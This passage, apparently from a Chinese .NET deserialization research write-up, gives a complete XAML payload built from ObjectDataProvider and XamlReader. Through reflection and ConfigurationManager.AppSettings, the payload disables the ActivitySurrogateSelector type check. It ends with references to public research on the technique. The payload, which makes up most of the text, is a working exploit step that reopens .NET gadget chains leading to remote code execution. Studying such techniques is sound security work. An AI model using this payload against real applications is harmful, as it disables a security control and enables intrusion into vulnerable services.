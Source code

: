 结合`ObjectDataProvider`和`XamlReader`来执行`System.Configuration.ConfigurationManager.AppSettings.Set("microsoft:WorkflowComponentModel:DisableActivitySurrogateSelectorTypeCheck", "true");`的操作

payload 如下：

```plain
<ResourceDictionary
    xmlns="https://schemas.microsoft.com/winfx/2006/xaml/presentation"
    xmlns:x="https://schemas.microsoft.com/winfx/2006/xaml"
    xmlns:s="clr-namespace:System;assembly=mscorlib"
    xmlns:c="clr-namespace:System.Configuration;assembly=System.Configuration"
    xmlns:r="clr-namespace:System.Reflection;assembly=mscorlib">
    <ObjectDataProvider x:Key="type" ObjectType="{x:Type s:Type}" MethodName="GetType">
        <ObjectDataProvider.MethodParameters>
            <s:String>System.Workflow.ComponentModel.AppSettings, System.Workflow.ComponentModel, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35</s:String>
        </ObjectDataProvider.MethodParameters>
    </ObjectDataProvider>
    <ObjectDataProvider x:Key="field" ObjectInstance="{StaticResource type}" MethodName="GetField">
        <ObjectDataProvider.MethodParameters>
            <s:String>disableActivitySurrogateSelectorTypeCheck</s:String>
            <r:BindingFlags>40</r:BindingFlags>
        </ObjectDataProvider.MethodParameters>
    </ObjectDataProvider>
    <ObjectDataProvider x:Key="set" ObjectInstance="{StaticResource field}" MethodName="SetValue">
        <ObjectDataProvider.MethodParameters>
            <s:Object/>
            <s:Boolean>true</s:Boolean>
        </ObjectDataProvider.MethodParameters>
    </ObjectDataProvider>
    <ObjectDataProvider x:Key="setMethod" ObjectInstance="{x:Static c:ConfigurationManager.AppSettings}" MethodName ="Set">
        <ObjectDataProvider.MethodParameters>
            <s:String>microsoft:WorkflowComponentModel:DisableActivitySurrogateSelectorTypeCheck</s:String>
            <s:String>true</s:String>
        </ObjectDataProvider.MethodParameters>
    </ObjectDataProvider>
</ResourceDictionary>
```

### 参考文章

[https://paper.seebug.org/1418/#typeconfusedelegate](https://paper.seebug.org/1418/#typeconfusedelegate)

[https://github.com/Y4er/dotnet-deserialization/blob/main/SoapFormatter.md](https://github.com/Y4er/dotnet-deserialization/blob/main/SoapFormatter.md)

[https://googleprojectzero.blogspot.com/2017/04/exploiting-net-managed-dcom.html](https://googleprojectzero.blogspot.com/2017/04/exploiting-net-managed-dcom.html)

[https://www.netspi.com/blog/technical/adversary-simulation/re-animating-activitysurrogateselector/](https://www.netspi.com/blog/technical/adversary-simulation/re-animating-activitysurrogateselector/)

